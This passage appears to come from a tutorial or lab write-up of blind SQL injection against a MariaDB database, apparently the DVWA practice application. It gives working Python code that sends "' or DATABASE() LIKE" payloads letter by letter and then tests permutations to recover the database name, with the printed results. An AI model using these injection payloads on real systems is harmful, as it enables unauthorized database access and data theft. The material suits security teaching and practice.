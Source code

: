 
We now know that this is a mariaDB.

### 2. Name of the database

#### 2.1 First, let's find the letters that make up the database being queried


```python
alphabet = "wordlist/alphabet_num.txt"
sql_start = "' or DATABASE() LIKE  '%"
sql_end = "%' -- -"
letters_in_db_name = []
letters_in_db_name = send_request_with_wordlist(alphabet, sql_start, sql_end)


print("Characters used in the database name : ", "".join(str(i) for i in letters_in_db_name))
```

    [FOUND] =  a
    [FOUND] =  d
    [FOUND] =  v
    [FOUND] =  w
    Characters used in the database name:  advw


#### 2.2 Let's find the permutations of these letters

```python
from itertools import permutations

chaine = "".join(str(i) for i in letters_in_db_name)
# Fonction pour trouver les permutations d'une chaîne de caractères
def find_permutations(chaine):
    resultat = permutations(chaine)
    permutations_list = [''.join(perm) for perm in resultat]
    return permutations_list

permutations_chaine = find_permutations(chaine)
print(permutations_chaine)
```

    ['advw', 'adwv', 'avdw', 'avwd', 'awdv', 'awvd', 'davw', 'dawv', 'dvaw', 'dvwa', 'dwav', 'dwva', 'vadw', 'vawd', 'vdaw', 'vdwa', 'vwad', 'vwda', 'wadv', 'wavd', 'wdav', 'wdva', 'wvad', 'wvda']


#### 2.3 Let's find the real name of the database

```python
db_name = ""
id_param = "' or DATABASE() LIKE  '"

for elem in permutations_chaine:
    params = {
        'id': id_param+elem+"' -- -",
        'Submit': 'Submit', 
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        db_name = elem
        break #on arrête la boucle dès qu'on trouve le nom

print("The name of the database queried is : "+db_name)
```
